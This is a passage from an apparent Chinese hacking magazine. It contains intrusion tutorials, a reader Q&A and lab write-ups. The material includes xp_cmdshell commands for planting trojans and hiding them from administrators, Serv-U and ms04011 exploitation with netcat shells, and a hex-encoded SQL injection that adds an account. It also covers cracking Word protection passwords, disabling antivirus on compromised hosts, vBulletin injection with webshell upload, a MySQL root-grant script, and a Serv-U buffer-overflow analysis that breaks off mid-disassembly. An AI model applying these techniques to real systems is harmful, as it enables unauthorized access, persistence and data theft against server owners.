exec master.dbo.xp_cmdshell 'cscript C:\Inetpub\AdminScripts\mkwebdir.vbs -c localhost -w "1" -v "win" c:\winnt\system32'
```

这样就在默认的 Web 服务器下面建立了一个虚拟目录 win，并且指向物理路径为 `C:\winnt\system32`。这时自定义的这个虚拟目录还没有执行动态脚本的权限，为了能够正常访问将要上传的木马文件，需要把执行权限加上，执行的 SQL 语句为：

```sql
exec master.dbo.xp_cmdshell 'cscript C:\Inetpub\AdminScripts\adsutil.vbs set w3svc/1/root/win/AccessExecute True'
```

这样，现在你就可以使用备份数据库或者使用 `sp_makewebtask` 存储扩展的方法上传木马文件了。不过别忘了，使用完木马之后把刚刚建立的虚拟目录删除，以免被管理员发现。需要执行的 SQL 语句为：

```sql
exec master.dbo.xp_cmdshell 'cscript C:\Inetpub\AdminScripts\adsutil.vbs delete w3svc/1/root/win/'
```

这样，无论是从服务器上拖数据还是上传木马，我们都有了自己的根据地了。

# 通过 Serv-U MDTM 漏洞获得 3389 肉鸡

- 寻找存在漏洞的服务器。可以通过 FTP 搜索引擎，例如 `http://e.pku.edu.cn` 对常用的关键字搜索，可以列出一大堆的服务器，然后 telnet 到对方服务器，注意服务器的返回信息。一般 5.0 以下的版本（不包括 5.0）的服务器成功的几率比较大，另外显示 5.0 版本的服务器可能是 5.0 版，也可能是 5.0.0.4 版，因此如果碰到 5.0.0.4 版，自然不会成功。另外，该漏洞需要首先得到一个已知的用户名和密码，譬如某些 FTP 网站为吸引顾客的 list 用户。

- 对存在漏洞的服务器进行溢出：现在网上有几种工具，但最好用的还是 SWAN 的那个溢出程序，该程序网上随处可见，拖下来编译即可。这个程序的第一种用法成功后会在服务器打开 8111 端口，telnet 上去以后就可获得 system 权限；第二种用法为溢出成功后服务器自动下载指定文件并执行，譬如木马程序；第三种用法是用来进行反向连接的，如果对方服务器在防火墙内，这种方法就比较方便了。首先用 nc 在本地监听某一端口，例如：

```bash
nc -vv -l -p 8111
```

对于 Serv-U 的最后一个参数便是刚才指定监听的 8111 端口，如果成功后 nc 便会得到 system 权限的 shell。

- 在服务器中添加管理员。

- 建立 3389 终端服务：如果对方已经打开终端服务，那我们就可以直接用上面添加的管理员账户登录了。如果没有，我们可以打开对方 ipc$，直接拷贝相关文件到服务器进行相关操作，当然我们也可以使用其他工具来实现。剩下的大家就为所欲为，自由发挥了。

# 如何修改终端服务的端口号

在 Windows 2000 Server 下，打开注册表编辑器，找到：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp`，然后找到键值 `PortNumber`，默认为 3389，更改为其他数值，例如：10000（请选择用户可以选用的数值范围，比如端口 TCP21 除外）；请在允许的范围内选择你想更改的数值，范围之外的数值将不起作用。

在 Windows XP 下，打开注册表编辑器，找到：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\RDP-Tcp`，然后找到键值 `PortNumber`，默认为 3389，请更改为其他数值，例如：10000。请在允许的范围内选择您想更改的数值，范围之外的数值将不起作用。最后重新启动服务器就可以了。

# DVBBS 7.0 SP2 的一个小漏洞

虽然动网比较安全，对很多代码都做了过滤，但是还有一个代码没有进行过滤处理（至少我发现一处），就是 OBJECT！这是跨站脚本，也是效率最低的一个跨站漏洞。

实现方式：登录 DV 7.0 SP2 论坛——>发表新贴——>点“编辑 HTML”——>插入：

```html
<OBJECT height=500 width=500 data=http://www.baidu.com></OBJECT>
```

发表，你浏览一下，看会发生什么情况？DV 7.0 SP2 最新补丁是 0504，不知补上了没有？

# EXE 转为 BAT

这类软件网上不多见，但是有相关教程：http://bbs.chinaeagle.org/showthread.php?s=1ae74529e9d7252a7c476c3df9048be6&threadid=85758

使用方法：选中要转换的 exe 程序，点击转换即可转换！转换完之后将会在原有目录下生成一个 result.bat，执行便能生成原来打包的程序。你可以将此批处理通过已有的 Shell 进行执行，便可以在对方服务器上生成打包 exe 程序。

由于转换的是 exe 程序，在转换成相应的 bat 后体积会变大数倍，所以只适用于小型的木马后门，请勿用过大的程序，否则执行可能较慢！


# 透过 ASP 修改 NT 使用者的密码

当一个用户登录网站的安全区域，可以利用 ServerVariables 集合中的 LOGIN_USER 来了解登录的用户帐号（记得把允许匿名登录选项关闭），现在先看看修改界面的代码：

```html
<form action="changepwd.asp" method="post">
<!-- 为了不让使用者自己输入帐号所以使用隐藏 -->
<input type="hidden" name="UserName" value="<%=Request.ServerVariables("LOGIN_USER")%>">
<br>输入旧密码：<input name="OldPwd">
<br>输入新密码：<input name="NewPwd1">
<br>确认新密码：<input name="NewPwd2">
<input type="submit" value="更改密码">
</form>
```

接下来是 changepwd.asp 文件的处理代码：

```asp
<%
OldPwd = Request.Form("OldPwd")
NewPwd1 = Request.Form("NewPwd1")
NewPwd2 = Request.Form("NewPwd2")
UserName = Request.Form("UserName")

If NewPwd1 = NewPwd2 Then
    Set oUser = GetObject("WinNT://" & UserName)
    oUser.ChangePassword OldPwd, NewPwd1
    oUser.SetInfo
    Set oUser = Nothing
Else
    Response.Write "请再确认你的密码"
End If
%>
```

# 微软 Word 2003 Bug 再现

“保护文档”是 Word 的一项功能。选择“工具→保护文档”选项，“保护内容”选择“窗体”并设置一个密码，之后除非用户在菜单中选择“工具→解除文档保护”后正确输入密码，否则对此文档只能观看而不能修改。

破解方法如下。

- 首先用 Word 2003 打开已设置有密码的“保护文档”（原始 DOC 文件，此文档可由 Word 2000/XP（2002）/2003 创建）。

- 在菜单中选择“文件→另存为 Web 页”，保存为 HTML 文件后关闭 Word。

- 用“记事本”或其他字处理软件打开上步中保存的 HTML 文件。

- 查找相关标签之间为你设置的密码加密后的十六进制格式。

- 记录密码字符，例如本例中“3E36C48A”，关闭“记事本”。

- 使用十六进制文件编辑器（例如 WinHex 或者 UltraEdit）以十六进制（Hex）格式打开原始 DOC 文件。

- 反序查找记录的十六进制密码字符，例如本例中查找“8A C4 36 3E”。

- 将查找到的 4 个双字节均用“0”覆盖，保存文件，关闭十六进制文件编辑器。

- 使用 Word 打开原始 DOC 文件，在菜单中选择“工具→解除文档保护”，密码为空。

至此，设置有密码的“保护文档”完全被破解，与没有经过保护的文档毫无区别。如果入侵者破解了文档并作了修改，之后再次利用十六进制文件编辑器将原始密码（如上例中“8A C4 36 3E”）写回，这样表面看起来“保护文档”好像是原封未动，实际上内容早已乾坤扭转了。

# 入侵问答


- **问：** 前段时间的“振荡波”是利用的什么漏洞啊？我们可以利用吗？

  **答：** “振荡波”是利用 ms04011 漏洞攻击的。网上有很多这样的攻击程序，本期杂志我们也涉及到了这些方面，这里我们以 sbaa 的攻击程序进行相关说明。在网上我们可以获得 ms04011 的攻击包，该套程序包含以下几个程序。

```text
E:\ms04011 的目录

2004-05-07 01:11    <DIR>
2004-05-07 01:11    <DIR>
2004-04-13 18:18    23,040    DSScan.exe
2004-04-23 23:32    40,960    getos.exe
2004-04-24 21:57    40,960    ms04011.exe
2004-04-27 14:09       388    readme.txt
2004-04-23 14:42   311,568    sbaanetapi.dll

E:\>ms04011\ms04011
Windows Lsasrv.dll RPC [ms04011] buffer overflow Remote Exploit
bug discovered by eEye,
code by sbaa(sysop@sbaa.3322.org) 2004/04/24 ver 0.1
Usage:
ms04011 0 targetip (Port ConnectBackIP)
----> attack 2k (tested on cn sp4, en sp4)
ms04011 1 targetip (Port ConnectBackIP)
----> attack xp (tested on cn sp1)
```

  其中程序 DSScan.exe 用来扫描存在漏洞的主机，而 getos.exe 用来对目标计算机的操作系统进行判断，ms04011.exe 是溢出程序，溢出成功后我们可以获得目标机器的 system 权限的 Shell。程序提供正向和反向连接，不过，小编使用正向连接方式时，通常可以成功，使用反向连接时，成功率不高。采用正向连接方式进行攻击时，默认情况下，我们 telnet 到目标机器的 1234 端口即可获得 Shell。

- **问：** 我是个小菜鸟，听高手们说 DOS 是非常重要的，所以最近一直在学，现在有个疑问搞不清楚，请问怎样在命令行下搜索一个文件？谢谢。

  譬如在 E 盘搜索 ca.exe 文件，则执行如下命令：

```text
C:\>dir /s E:\ca.exe

驱动器 E 中的卷是 新加卷
卷的序列号是 808B-2397

E:\V2 的目录
2002-04-28 15:08    8,704    CA.exe
              1 个文件    8,704 字节

E:\xxx 的目录
2002-04-28 15:08    8,704    CA.exe
              1 个文件    8,704 字节

所列文件总数：
              2 个文件   17,408 字节
```

  0 个目录 8,456,781,824 可用字节

  如果你想得到一个逻辑盘的详细目录列表，可以使用以下命令（获得 D 盘详细目录，存放在 `C:\Index_D.txt` 文件中）：

```text
C:\>dir /s D:\ >C:\Index_D.txt
```

  如果想知道对方机器中有什么宝贝，可以通过这种方法来查看，非常方便。

- **问：** 我在入侵的时候遇到了一个 MS SQL 的数据库，本来应该很容易搞定，但是偏偏该系统过滤了单引号，请问如何绕过（单引号）限制继续注入啊？

  **答：** 在（单引号）被过滤的情况下照样可以注入的，使用下面语句就可以实现了：

  http://www.ilikeplmn.com/show.asp?id=1;declare%20@a%20sysname%20select%20@a=0x6e0065006700740020007500730065007200200061006e00670065006c002000700061007300730020002f00610064006400%20exec%20master.dbo.xp_cmdshell%20@a;

  别看晕了，其实其中的代码：`0x6e0065006700740020007500730065007200200061006e00670065006c002000700061007300730020002f00610064006400`，就是 `net user angel pass /add` 的 16 进制格式。即以 `0x` 开始，然后每个字符的 16 进制后面跟上 `00`。实际上，上面没有分行的注入语句和下面分行的语句效果是一样的。

```sql
declare @a sysname
select @a=<command>
exec master.dbo.xp_cmdshell @a
```

  先声明一个变量 a，然后把注入语句赋值给 a，然后调用变量 a 执行输入的语句。其中变量 a 可以是我们想注入的任何命令。在网上可以找到专门的 16 进制和字符串的转换工具，这样，使用以上方法就更加方便了。

- **问：** 关于 Radmin 屏幕监控黑屏问题，请问应如何处理？

  **答：** 用 Radmin 连接了两台肉鸡，可以进行远程 Telnet 和文件管理，完全控制和屏幕监控也可以连上，但是连上以后就是黑屏，什么也看不到，这种情况很多人入侵或远程管理会遇到。

  这可能是很多方面的原因了！可能是你设置的视频模式不对（把 Radmin 连接的分辨率调一下）！也可能是网络太卡或是网卡驱动程序的问题，再有也可能是系统所引起的。笔者了解到有些版本的 Radmin 会出现这个问题，比如 Radmin 2.0，推荐使用 RA 3.0 汉化版本。

- **问：** 一用 TELNET 连接远程肉鸡就出现以下提示，是什么意思？怎么解决？

```text
Server allows NTLM authentication only
Server has closed connection
```

  **答：** 首先请确定你是否拥有肉鸡管理员／密码，如果没有是会出现这种情况的。再次就是 NTLM 的问题了，推荐你使用 NTLM 远程开启 TELNET。详情请阅读本期“新兵训练营”中的相关文章。

Q：我将最新 RPC 溢出程序 MS04-011 传上肉鸡，在 3389 终端下操作时候却总提示找不到 SYS 文件，而我在本地使用却一切正常，请问到底是怎么回事？

A：这种情况最常见的就是对方装有杀毒软件了，某些我们上传的文件被认为是病毒或木马，被查杀了。

我们可以上传 Pulist.exe 与 pskill.exe 上去，Pulist 列表后我们查看是否有我们熟悉的程序名，比如 kav 字眼的就是金山毒霸了，再 pskill pid 干掉这个程序。要是还是没把握，干脆在对方终端下点击：开始→设置→Windows 安全性→再选：任务管理器→调出任务管理器后，转到进程，钩上“显示所有用户的进程”，看哪个进程就是病毒，结束掉它吧。另外我们了解到很多杀毒软件都是以服务形式出现的哟，所以我们在控制面板→管理工具→服务→找到服务后“终止”就可以了，要是不想它以后自己运行，就选取“手动”就可以了。接着上传我们要上传的程序哟。

Q：用流光扫出了 administrator 账号为空的 NT5.1 的机子却 copy 不上文件是怎么回事，如何解决？

A：Win NT5.1 是 XP 系统，XP 默认 IPC$ 连接只有 guest 权限。还有一种情况，你上传的东西，一上传就被对方的杀毒软件给干掉了，所以反馈说上传失败。你可以上传远程控制软件的控制端看看。把 XP 的 IPC 提升到 system 的权限可以这样：控制面板→管理工具→本地安全策略→安全选项→网络访问：本地帐户的共享和安全模式，将“仅来宾”改成“经典”，IPC 连接就有 ADMIN 权限了！

Q：在入侵中得到 SHELL 后，想使用 TFTP 上传却总失败，在肉鸡上一用 `tftp ip get software` 这个命令就停止，为什么？不是 TIME OUT（超时）的问题。

A：传送的方法一般有 IPC$、TFTP、FTP，都失败的话，建议用我们本期提到的转换 exe 为 bat 工具，用记事本打开此 BAT 文件后，再把代码一句一句输过去，也就是把 getftp.exe 传过去，然后执行 getftp.bat，得到 getftp.exe。

```
下面的就是用 getftp.exe 传输文件的代码：

Tiny FTP Console Downloader(Resume Support) V1.0 By WinEggDrop

Usage: getftp.exe FTPServer Port UserName Password ProgramToDownload

Example: getftp.exe ftp.myftp.com 21 test test test.exe
Example: getftp.exe ftp.myftp.com 21 test test *.rm
```

Q：我用 telnet 进去一台 2k 的机子后，怎么判断是服务版还是专业版的啊？

A：利用 CMD 下显示的信息可以初步判断 WIN2000 系统的具体版本：

1．输入 `type c:\boot.ini` 得到信息，比如得到：

```
[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(1)partition(1)\WINDOWS

[operating systems]
multi(0)disk(0)rdisk(1)partition(1)\WINDOWS="Windows Server 2000" /fastdetect
C:\="Microsoft Windows"
```

可知系统是 Win2000 服务器版。

2．输入 `query user` 看返回信息。这个命令实际上是用来查看对方有没有开放终端的，或显示终端服务器上用户会话的有关信息。不过因为 WIN2000 专业版没有终端服务，所以显示与 WIN2000 服务器版显示是不一样的，一般也可以用来判断服务器版本。大家自己找只专业版的肉鸡与服务器版有开终端/无终端的对比一下就说明了。

Q：在 SQL INJ 注入时，我遇到有的是汉字，请问如何解决？有没有工具可以使用？

A：在 SQL 注射时，如果得到 ASCII 码是 -10532 的话转换会很麻烦，你可以去 `http://haiyangtop.html.533.net/1.htm`、`http://jsw.china12e.com/friends/lcx/1.htm`。在这个网页中先在第一个框里输入 -10532，得到 16 进制为 d6dc，再在第 2 个框里输入 d6dc 就可以得到汉字“周”了，其他也是一样的方法。

Q：现在全国很多网段都 ping 不通，我想知道是不是因为所有的路由都设置了过滤还是怎么回事？还有，现在很多扫描器，包括 X-Scan 和流光，都因为什么 ping 不通而变得有点异常，比如检测 139 的就检测不到，不知道是什么原因？我还想知道目前有没有改进版或者其他工具克服 ping 不通的缺陷？

A：PING 不通有很多因素。自从去年大规模的 RPC 漏洞后，很多地方的电信就封了 PING 了，当然也很多地方的电信也封了 139、445 这样的端口了！（嘿嘿，所以最近的 MS04-011 被入侵的机器会相对少得多）另外就是你 PING 的 IP 段暂时没有分布活动的计算机，或是配置合理的 FIREWALL 能防 PING 的机器，或者是机器不在线，这些都会产生都 PING 不通的情况。

扫描器 PING 不通对 139 没反应是很正常的事，最常见的就是服务器做了安全策略或是装了防火墙。PING 不通但是你却想“软的不行来硬的”的话，可以用 X-SCAN 在设置里选上“无条件扫描”，就不管 PING 得通不通的问题了，一样会开扫的，不过扫描速度就慢了很多了。

Q：请问怎么去掉 MSSQL 中 SA 的 SHELL 权限，或加上 SA 的 SHELL 权限，让它能执行系统命令？

A：
- 1．去掉 SA 的 SHELL 权限可以用这样的方法：开始→程序→Microsoft SQL Server→查询分析器，第一步执行：`use master`，第二步执行：`sp_dropextendedproc 'xp_cmdshell'`。
- 2．加上 SA 的 SHELL 权限：开始→程序→Microsoft SQL Server→查询分析器，执行：

```
EXEC sp_addextendedproc 'xp_cmdshell', @dllname = 'xplog70.dll'
```

# 实验室第九关过关过程重放

经过数天挑灯夜战，反复思考，终于过了第九关拿到了桌面上的 ok.txt 文件，故写此文以供广大黑迷参考！

## 取得论坛的管理员权限

- 1. 如果安装目录 `/admin` 下存在 `install.php`，你可以轻松获取管理员权限！运行此文件 `http://219.237.81.47/admin/install.php`，根据提示一步步装下去就可轻松获取管理员权限！
- 2. 利用 vBulletin `calendar.php` 远程 SQL 注入漏洞！vBulletin 包含的 `calendar.php` 脚本对用户提交参数缺少充分过滤，远程攻击者可以利用这个漏洞进行 SQL 注入攻击，可获得敏感信息和更改数据库。

首先，在论坛注册一用户。进入“日志”→“私人事件”→编辑一个事件（例如标题为“TEST”，内容“测试”）提交，再次编辑刚才的“TEST”事件（假设此时的 `eventid=7`）→在浏览器中输入如下 SQL 注入代码：

```
http://219.237.81.47/labwww/calendar.php?s=&action=edit&eventid=7 union (SELECT coppauser,styleid,userid,0000-0-0,username,password FROM user WHERE userid >= 1) order by eventdate
```

假设管理员的 `userid=1`，此时标题栏中显出管理员经过 MD5 加密的 32 位密码：`25d55ad283aa400af464c76d713c07ad`，在事件信息中显出用户名：admin，可通过 MD5Crack v1.1 进行爆破，获取密码为：`12345678`。

### 利用管理员权限上传 SHELL

进入界面 `http://219.237.81.47/labwww/admin/index.php`，输入用户名和密码，进入 vBulletin 管理员控制面板，利用“表情符号”→“上传”中未检查文件类型的漏洞，上传一个 phpshell（我的是 `xydos.php`，php 也是现学的不是很好用，能实现：浏览、拷贝、重命名、删除文件和上传文件的功能），其中在保存图片的路径栏中可去掉原来的 `images/smilies`，使其为空，这样上传后就会传在 `http://219.237.81.47/labwww/` 目录下。`xydos.php` 文件的代码如下：运行 `http://219.237.81.47/labwww/xydos.php`，利用 `dir` 命令浏览 `c:\Documents and Settings\Administrator`，显示“DIR 命令失败！”说明访问此目录权限不够！不要在一棵树上吊死了，use your head, you will find a good idea!（详细代码请看光盘）

## 通过 MySQL 获得 OK.TXT

利用 `dir` 命令可以找到 `c:\mysql\data\mysql\user.myd` 文件，利用 Copy 命令把它拷到 `d:\www` 目录下，下载后用记事本打开，内容如下：


由此可见，远程登录用户（前面带 `%`）已有密码，但在本地登录用户 root（前面带 `localhost`）密码为空！利用 upload 上传文件功能，上传一个添加 root 用户的程序 `xymysql.php`，内容如下：

```php
<?php
$dbh = mysql_connect('localhost:3306', 'root', '');
echo mysql_errno().' '.mysql_error().'<BR>';//显示错误和错误信息！
mysql_select_db('mysql');
echo mysql_errno().' '.mysql_error().'<BR>';
$query='GRANT ALL PRIVILEGES ON *.* TO 用户名@\'%\' IDENTIFIED BY \'用户密码\' WITH GRANT OPTION';
$res = mysql_query($query, $dbh);
echo mysql_errno().' '.mysql_error().'<BR>';
$err = mysql_error();
if($err){
    echo '发生错误! </a>';
}else{
    echo '添加root用户OK！';
}
?>
```

运行 `http://219.237.81.47/labwww/xymysql.php`，添加远程 root 用户成功后，利用牛族 MySQL 连接器登录，成功登录后执行以下命令：

```sql
(1) use test;
(2) create table xyhappy200 (str TEXT);
(3) load data infile 'd:\Documents and Settings\Administrator\桌面\ok.txt' into table xyhappy200;
(4) select * from xyhappy200 into outfile 'd:\www\ok.txt';
```

最后在浏览器中输入：`http://219.237.81.47/labwww/ok.txt`，就看到 ok.txt 的内容了！

在此感谢黑防给大家提供一个锻炼和学习的平台！我会永远支持黑防的！谢谢。

（详细过关录像已收录到本期光盘）

# 实验室万元大奖水落石出

## Serv-U 本地溢出惊现江湖

5 月中旬的北京冷暖交替，在香椿的漫天飞舞中春天的气息扑面而来，街上行人的表情充满舒爽，却又透露几分慵懒，编辑部中此时依然热情如火，攻防实验室万元大奖水落石出，神秘黑客终于揭开面纱！

好了，小编在此就不废话了。相信大家此刻期待第十关的过关过程的好奇心比什么都强烈，神秘人是如何突破层层限制的？他是如何发现漏洞的？又是怎么利用该漏洞突破我们的关卡的？最关键的是，他是谁呢？——一切的谜底都将在文中揭晓！

开了 80，返回的 Banner 是 IIS 5.0，但是一个页面也没有！气愤，估计什么都没开，就扔了个 IIS 在那里，网络上很多服务器就这样，空开一个 IIS，什么脚本系统、数据库都没有，就让你入侵，放弃这个。

3306 也开了！又是一个 MySQL？是不是我把第九关的地址给弄错了？仔细看不是的，先不管了，用笨办法试下，挂上精品字典开始跑……跑了接近 4 个钟头都没跑出密码！看来第十关和第九关的设置是完全不一样的，想取巧是不可能了，得凭真功夫！

## 十关的踩点和分析

上期给大家演示了一下突破前九关的方法，现在我们继续：拿到十关 IP，用 Superscan 扫描一下，这里不推荐使用 syn，因为它有时候不是很准确的；再用 nmap for win 试试，怕各小编配置了迷惑信息，多换几个扫描器对获取真实的系统信息有帮助。

经过几个不同扫描器的轮番轰炸，确定系统是 Win2000 advance server，而且露骨的是一些常规的端口都开放了，包括 135 等，不会完全不设防吧？那黑防不是要开个笔记本工厂送奖品了 ^_^？——可惜 135 用 RPC 溢出试后无效，嘿嘿，看来管理员已经把所有补丁都打了，这才算有难度嘛！

探测中发现 12345 端口也开着！这是虾米东西？小编们也太狠毒了，一点配置信息都不透露，扔下一个迷宫给我们自己探索，不过这样也好，当它是普通服务器想办法入侵吧！

试试探测返回信息，传回来的 Banner 是 220！不是吧？难道是传说中的 Serv-U FTP 服务器？黑防难道是按照普通的虚拟主机的配置方法配置的服务器？IIS + MySQL + FTP，这不活脱脱一个虚拟主机的配置方式吗？到这里我才算是明白点什么叫“虚拟的真实入侵平台”了，其实这就是我们平时在国内最常见的服务器配置方式嘛！只不过安全性应该做了很大的改进，这点从我的极品字典跑不出密码就可以看出了。看来是块硬骨头……

不管了，想想平时是怎么入侵虚拟主机的？最常见的方式是通过上面虚拟站点的脚本类漏洞，拿到低权限的脚本后门，配合一些系统配置不合理或者第三方程序的漏洞提升权限。或者是直接用 MySQL 连接，对配置不合理的服务器直接拿到系统权限，最简单的方法当然就是利用现在网络上一大堆的 Serv-U 漏洞直接溢出了！从目前的信息看来就是这样，因为是要求要自己发现漏洞，所以相对来讲最容易着手的就是第三方程序的漏洞了，虽然经过了严格的安全配置，相信深入研究还是有漏洞可钻的。来详细看一下服务器各程序的信息吧。

在命令行下试了一下 FTP 后，发现竟然可以匿名登录！不是吧？如果是 Serv-U 不是能直接溢出了？！黑防没和我们开玩笑吧？！不可能，再利用 FlashFXP 登录看看。果然，登录后发现目录直接指向 serv_ftp 目录，我们可以得到一些配置文件，奇怪黑防不会真那么简单设置第 10 关吧？！

先试一下有没有写权限，有的话就太爽了！可惜没有，只有读权限，于是只能先把配置文件 down 下来看看了。在下载的 version.txt 里面我们可以得知，目标的 Serv-U 是 5.0.0.4 版本，目前已知的漏洞都已经补上了——可惜不能直接溢出，呵呵，不然黑防估计发笔记本都要发破产！嘿嘿。

在配置文件里面，我们看到除了一个匿名账号外，还有一个高权限的有管理权限的 FTP 账号！天！不是吓我的吧？虽然密码是加密的，但我们可以利用最笨的办法：暴力破解啊！Serv-U 的加密又不是很难对付，不管了，直接对目标暴力破解了……5 分钟后发现连接不上了！5555……果然没这么简单！看来管理员设置了安全策略，对于短时间内连续连接多次 IP 的会封掉，没办法远程暴力破解了，切换到本地来破解，这样更快！嘿嘿，不一会儿密码就跑出来了，是“test”。好了，如果是网络上的真实入侵，没用漏洞我们都能成功地入侵这个服务器了，实验室的配置应该没这么简单，试试再说！

我设置了一下本地的 Serv_Ftp，让它可以远程管理对方的服务器，给自己添加一个有 EXEC 权限的账号，到时候就能得到一个 Shell 了——可惜登录后，发现任何对 SERV-U 的改动都不生效，难道管理员把配置文件设置为了任何人都没有写权限？BT 啊！我都想骂人了，这不是相当于说任何公布过的 Serv-U 的配置错误、溢出漏洞都没办法了？看来这招是没戏了，痛苦 ing……

没办法，这条路看来是断了，再来想其他办法吧！看来常见的配置漏洞都没办法了，真得研究程序漏洞了，首先拿 MySQL 开刀吧，逆向试试——我花了大概一星期的时间，没发现 MySQL 的漏洞，所以又转到了 SERV-U 上来，希望找到漏洞可以得到 Shell——很不幸，真找到了一个！高兴哇！下面一起来看看吧！

# Serv-U 5.0.0.4 及以下版本管理界面多处缓冲区溢出

Serv-U 是一款在国内很受欢迎的 FTP 服务器软件，应用范围非常广，常见的虚拟主机服务提供商都是使用的这个 FTP 服务程序，所以它的漏洞也从去年开始没有停歇过，都在不停地被研究出来，希望今天我发现的这个漏洞大家用来安全做测试就可以了，不要造成太大的危害。

Serv-U 的配置信息保存在 INI 配置文件或者注册表中（5.X 版本支持通过 ODBC 接口保存在数据库中），2.X 及以前版本的管理程序是通过直接在本地修改配置文件/注册表的形式来实现对 Serv-U 的配置、管理。自 3.X 版本以来，Serv-U 自己实现了一套基于 TCP/IP 的管理协议，从而实现了 Serv-U 的远程管理功能。

通过研究 Serv-U 的管理协议后发现，Serv-U 在处理管理协议命令的时候，存在多处基于栈（stack）的缓冲区溢出漏洞。虽然触发这些漏洞首先需要获得 Serv-U 的管理权限，几乎没法被有效地利用，但在特定条件下，还是能被恶意用户用于提升权限。

Serv-U 程序启动之后，会监听 127.0.0.1:43958 供本地用户管理之用。假如 Serv-U 域的监听端口是 21，那么通过 21 端口，也可以远程管理 Serv-U（前提是你有 “SYSTEM Administrator” 权限的 FTP 账号）。

下面通过一些实例来介绍 Serv-U 管理协议的工作流程。（“S:” 表示 Serv-U 服务器回显的数据，“C:” 表示管理端发送的命令，括号里面的是注释）。

```text
S: （连接上 Serv-U 管理端口后回显的欢迎信息）
220 Serv-U FTP Server v5.0 for WinSock ready...
C: （发送用户名）
USER user
S: （用户名 OK）
331 User name okay, need password.
C: （发送密码）
PASS pass
S: （回显信息，以下信息说明用户名和密码都正确）
230 User logged in, proceed.
C: （表示切换到系统管理模式）
SITE MAINTENANCE
S: （如果上述账号有管理权限，那么这里就回显一些服务器的配置信息）
230 Switching to SYSTEM MAINTENANCE mode.
230 Version=1
900-Type=Status
900-Server=Online
900-Type=License
900-DaysLeft=4
900-Status=InTryOut
900-CurAccounts=0
900-MaxAccounts=-1
900-CurDomains=0
900-MaxDomains=-1
900-MaxNrUsers=-1
900-VirPath=
900-DiskQuota=1
900-Ratios=1
900-RemoteAdmin=1
900-SSI=1
900-ODBC=1
900-Version=5.0.0.4
```

OK！接下来我们可以发送更多的命令，可以实现添加、修改、删除域，添加、修改、删除账号等等一切你的 GUI 界面管理程序里面能够实现的操作。在对账号进行相关的操作之前，必须先指定一个域。

```text
C：（添加一个域的命令如下）
-SETDOMAIN
-Domain=tttt|0.0.0.0|2121|-|1|0
-DynDNSEnable=0
-DynIPName=
S：（服务器回显信息，添加成功）
200-DomainID=1
220 Domain settings saved
-Domain=tttt|0.0.0.0|2121|-|1|0
    (1)   (2)    (3)   (4)
```

上述标记数字的地方解释：（1）域的名字；（2）域监听的 IP；（3）域监听的端口；（4）域的配置信息以何种方式存储，是保存在 INI 配置文件中，还是保存在注册表中，或者通过 ODBC 接口保存在数据库中。

```text
C：（列出所有域的简要信息）
GETDOMAINLIST
S：（域列表）
200 Domain=tttt|0.0.0.0|2121|1|1|1|0|1
C：（获取指定域的详细信息）
-GETDOMAIN
Domain=tttt
S：（回显指定域的详细信息）
200-Domain=tttt
200-IP=0.0.0.0
200-PortNo=2121
200-DomainID=1
200-NqUsers=0
200-NqGroups=0
200-DynDNSEnable=0
200-DynIPAddress=
200-DynIPName=
200-Online=0
200-Store=StoreIni
200 SSLOption=SSLNone
```

在 Serv-U 5.0.0.4 版本中，新添加域默认是离线的，所以还必须发送一个命令：

```text
让它上线：
C：（让指定域上线）
-SERVERCOMMAND
-ID=1
Command=DomainOnline
S：（回显信息）
220 Server command OK
900-Type=DomainStat
900-ID=1
900 Online=1
在指定了域之后，就可以给这个域添加新的 FTP 账号了：
C：（添加 FTP 账号）
-SETUSERSETUP
-IP=0.0.0.0
-PortNo=2121
-User=ul                <--- 注意这里！
-Password=pl
-HomeDir=c:\
-PasswordType=Regular
Access=c:\|RLP
S：（添加用户成功）
200-User=ul
200 User settings saved
```

看到上面的箭头了吗？如果在那里输入超长的字符串，将触发一个基于 Stack 的缓冲区溢出。事实上，在 GUI 的管理程序里面，添加新的 FTP 账号时，对用户名长度是有限制，你在那里是无法触发缓冲区溢出的。不过，我告诉你一个在 GUI 管理程序里面就可以触发溢出的办法：先添加一个 FTP 账号，账号名你能输入多长就输入多长，然后不停地 Copy 那个账号：“aaa” -> “copy of aaa” -> “copy of copy of aaa” -> ……

```text
C：（添加一个组）
-SETGROUPSETUP
-IP=0.0.0.0
-PortNo=2121
-Group=aa              <--- 注意这里
S：（回显信息）
200-Group=aa
220 Group settings saved
```

添加一个组，如果组名超长也将触发一个基于 Stack 的缓冲区溢出。前提是所操作的域的配置信息必须是保存在注册表中。而前述添加用户的溢出，不管所操作的域的配置信息是存储在 INI 文件还是注册表都可以触发（存储在数据库中不行）。

OK！介绍完了 Serv-U 常用的管理命令以及触发溢出的命令，我们来分析一下 Serv-U 程序的汇编代码，看看溢出到底是如何发生的（以 5.0.0.4 版本为例）。

```text
.text:005EEBDC sub_5EEBDC      proc near
.text:005EEBDC                 push    ebp
.text:005EEBDD                 mov     ebp, esp
// 从栈（stack）中分配 0x160 字节内存
.text:005EEBDF                 add     esp, 0FFFFFEA0h
.text:005EEBE5                 push    ebx
.text:005EEBE6                 mov     ebx, [ebp+8]
.text:005EEBE9                 mov     eax, [ebp+14h]
.text:005EEBEC                 push    eax
.text:005EEBED                 mov     edx, [ebp+10h]
.text:005EEBF0                 mov     ecx, [edx+8]
// 此时 ecx 指向的就是客户端提交的新添加的 FTP 账号的用户名
.text:005EEBF3                 push    ecx
.text:005EEBF4                 push    offset aUser_36 ; "USER="
.text:005EEBF9                 push    offset aSSD_10  ; "%s%s\%d"
.text:005EEBFE                 lea     eax, [ebp-160h]
.text:005EEC04                 push    eax
```

```c
// 这个函数实现类似 sprintf 的功能，将我们发送用户名以一定格式保存
// 在堆栈缓冲区中，如果我们发送超长的用户名，这里将触发溢出
text:005EEC05    call    sub_680574
text:005EEC0A    add     esp, 14h
text:005EEC0D    mov     edx, [ebx+30h]
text:005EEC10    lea     eax, [ebp-160h]
text:005EEC16    push    edx

// chp[0C] 作为 WritePrivateProfileStringA 函数的第三个参数，也就是数据地址
BOOL WritePrivateProfileString(
  LPCTSTR lpAppName,    // section name
  LPCTSTR lpKeyName,    // key name
  LPCTSTR lpString,     // string to add
  LPCTSTR lpFileName    // initialization file
);

// 其指向的地址必须可读，否则这里会产生异常
// 可此时 SEH 离 buffer 大概在 0x860 左右，我们暂不细究
